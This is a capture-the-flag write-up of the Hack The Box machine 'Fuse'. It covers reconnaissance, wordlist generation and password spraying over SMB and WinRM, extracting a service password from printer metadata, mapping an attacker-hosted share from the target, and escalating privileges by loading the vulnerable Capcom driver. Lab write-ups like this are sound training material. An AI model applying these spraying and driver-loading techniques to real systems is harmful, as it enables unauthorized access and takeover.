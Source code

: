 ```yaml
---
image: /assets/avatars/fuse.png
title: Fuse Writeup
author: Valerio Casalino
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/fuse.png"> Writeup for Fuse (Hackthebox)
---
```


# Fuse

As always `nmap`:

```bash
sudo nmap -sC -sV -oA nmap/initial 10.10.10.193
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-10-24 13:22:53Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
...
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h37m53s, deviation: 4h02m30s, median: 17m53s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2020-10-24T06:25:11-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-24T13:25:12
|_  start_date: 2020-10-23T23:24:56
```

Going to port 80, we are redirected to `http://fuse.fabricorp.local/papercut/logs/html/index.htm`, so we add this to hosts file:

```bash
echo -e "\n\n#HTB\n10.10.10.193 fuse.htb fuse.fabricorp.local fabricorp.local\n" | sudo tee -a /etc/hosts
```

We can see this web interface in front of us:

![image-20201024160036103]({{ site.url }}/assets/fuse/image-20201024160036103.png)

Watching the printer logs, we can see a bunch of user names, we can put the in a file that we call `users.txt`.

```
# users.txt
pmerton
tlavel
sthompson
bhult
administrator
```

Now we have to generate a word list for possible passwords, after I tried with classic `rockyou.txt` I tried with `cewl` on the main site:

```bash
cewl -d 5 -m 3  "http://fuse.fabricorp.local/papercut/logs/html/index.htm" --with-numbers > pass_wordlist.txt
```

 And trying password spray on all login names:

![image-20201024181235149]({{ site.url }}/assets/fuse/image-20201024181235149.png)

And eventually, credentials are found:

```
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\bhult:Fabricorp01'
...
```

When trying to login into `tlavel`, we get:

![image-20201024182201752]({{ site.url }}/assets/fuse/image-20201024182201752.png)

And after some research, I found [this forum question](https://samba.samba.narkive.com/I0oDpMEz/smbclient-says-nt-status-password-must-change-how-to-change-password) (if you can't read play a little with F12), which gave me the answer to my problem:

```bash
smbpasswd -r 10.10.10.193 -U tlavel
```

Note that the new password should be different from the old and with the same length, with the same number on capitalized letters and numbers. I choose `Lolzcorp01`. Hopping on RPC, let's enumerate a little more:

```
rpcclient -U FABRICORP\\tlavel 10.10.10.193

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

We found a password, now what you should do is try that password with your user list (updated with the user list of the `rpcclient` command) in `evil-winrm`.

```bash
_pass='$fab@s3Rv1ce$1' 
for user in $( cat ./users.txt ); do evil-winrm -i 10.10.10.193 -u "$user" -p "$_pass" && echo "$user:$_pass" >> creds.txt; done
```

But after a little research, I discovered this Metasploit module `auxiliary/scanner/winrm/winrm_login`, which was way faster:

![image-20201024185240383]({{ site.url }}/assets/fuse/image-20201024185240383.png)

Then, login with the correct user and password:

![image-20201024185523943]({{ site.url }}/assets/fuse/image-20201024185523943.png)

To get some files into the box, I created a temporary smb share on the attacker machine:

![image-20201024190419653]({{ site.url }}/assets/fuse/image-20201024190419653.png)

And connected to it from the box with the [powershell method](https://community.spiceworks.com/topic/2219152-powershell-mapping-network-drive):

```powershell
$password = ConvertTo-SecureString "lolz" -AsPlainText -Force
$credentials = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "lolz",$password
New-PSDrive -Name L -PSProvider FileSystem -Root "\\10.10.14.86\lolz" -Credential $credentials
```

![image-20201024192002890]({{ site.url }}/assets/fuse/image-20201024192002890.png)

And now let's load [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat) into our share and let's execute it from the box. From the output, we understand that our regular user has administrator's privileges with `SeLoadDriverPrivilege`. Now, to exploit this privilege, we can follow the instructions in [this article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/). Basically, to run the exploit, we should

> At this point we can use the PoC tool EOPLOADDRIVER (https://github.com/TarlogicSecurity/EoPLoadDriver/), which will allow us to:
>
> * Enable the **SeLoadDriverPrivilege** privilege
>
> * Create the registry key under HKEY_CURRENT_USER (HKCU) and set driver configuration settings
>
> * Execute the **NTLoadDriver** function, specifying the registry key previously created

```bash
wget "https://github.com/TarlogicSecurity/EoPLoadDriver/raw/master/eoploaddriver.cpp"
wget "https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys"
git clone "https://github.com/tandasat/ExploitCapcom"
```

Now you should hop in a Windows machine and compile the C++ code editing the command that you want to be executed, but while I was looking for more information, I stumbled in [this merged pull request](https://github.com/rapid7/metasploit-framework/pull/7363) that could make everything way easier, but unfortunately my Metasploit console wouldn't accept my credentials... So... Back to the boring method:

```powershell
# Powershell on Windows machine (mingw required)
g++ .\eoploaddriver.cpp -o eoploaddriver.exe
# Edit the launched string in ExploitCapcom and recompile
```

Copy the files in whatever folder, then:

![image-20201025015005268]({{ site.url }}/assets/fuse/image-20201025015005268.png)

![image-20201025015103961]({{ site.url }}/assets/fuse/image-20201025015103961.png)

...profit!
